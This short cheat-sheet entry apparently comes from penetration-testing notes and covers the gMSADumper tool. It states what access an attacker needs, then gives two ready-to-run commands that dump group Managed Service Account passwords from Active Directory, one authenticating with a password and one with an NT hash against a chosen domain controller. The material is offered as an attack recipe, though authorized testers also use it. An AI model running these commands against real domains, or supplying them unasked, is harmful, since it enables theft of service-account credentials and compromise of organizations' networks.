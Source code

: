 ### Source
https://github.com/micahvandeusen/gMSADumper  

### Prerequisite
```
Attacker user needs be listed in the property PrincipalsAllowedToRetrieveManagedPassword of target account.
```

### Read all gMSA passwords from any possible computer
```
python3 gMSADumper.py -u <user> -p <password> -d <domain>
```

### Read all gMSA password from any possible using NT hash and specific domain controller
```
python3 gMSADumper.py -u <user> -p <lmHash:ntHash> -d <domain> -l <rhost>
```

